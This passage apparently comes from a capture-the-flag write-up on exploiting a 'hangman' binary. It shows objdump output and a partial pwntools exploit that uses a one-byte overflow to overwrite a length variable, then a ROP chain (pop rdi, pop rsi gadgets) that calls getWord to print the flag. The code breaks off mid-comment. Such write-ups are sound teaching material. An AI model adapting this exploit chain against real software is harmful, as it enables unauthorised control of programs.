 From the source-code we have the following line:
```c
printf("You've guessed the word \"%s\"!!!\n", game.realWord);
```
we can find the address from the output of `objdump -D -Mintel hangman`:

```
  401825:       48 89 c6                mov    rsi,rax
  401828:       48 8d 3d b1 0a 00 00    lea    rdi,[rip+0xab1]        # 4022e0 <_IO_stdin_used+0x2e0>
  40182f:       b8 00 00 00 00          mov    eax,0x0
  401834:       e8 47 f8 ff ff          call   401080 <printf@plt>
```

This solves all of our problems since we have a format string that within it has another string that receives its address from `RAX`.

Now that we have all the gadgets we need, we only need to build our payload.

## Exploit

```py
from pwn import *
import re

def create_payload(binary):
    exe = context.binary = ELF(binary)
    r = ROP(exe)
    payload = ''

    # Address of "flag" string
    flag_str_addr = p64(next(exe.search('flag')))

    # Address of getWord function
    getWord_func_addr = p64(exe.symbols['getWord'])

    # Set values of the arguments that getWord will receive when called
    getWord_arg1 = flag_str_addr
    getWord_arg2 = p64(0x100)

    # Addresses of both ROP gadgets that we found previously
    pop_rdi__ret_addr = p64(r.find_gadget(['pop rdi', 'ret']).address)
    pop_rsi__pop_r15__ret_addr = p64(r.find_gadget(['pop rsi', 'pop r15', 'ret']).address)

    # Address of function game loop, function where the printf call that we use
    # to print our flag is called
    gameLoop_addr = exe.symbols['gameLoop']

    # The commands to move RAX to RSI and the call to printf are at an offset of 0x180
    # from the beggining of the function gameLoop
    print_block_addr = p64(gameLoop_addr + 0x180)

    # Now let's build the actual payload:
    # First we need to choose option two so we can overflow the buffer by one and overwrite the length variable, therefore, getting ourselves full control of the stack and control over PC.
    payload += '2\n' + 'A' * 32 + '\xff\n\n'

    # Fill in the stack until we get to the Return Pointer
    payload += '2\n' + 'B' * 64

    # Here we set the gadget that will pop the next value in the stack into RDI
    # So when "pop rdi" is run, the next value, which will be the address to the "flag" string (getWord_arg1), will be popped into RDI. 
    payload += pop_rdi__ret_addr + getWord_arg1

    # Now we set the gadget that will give us control over RSI, so we set it to 
```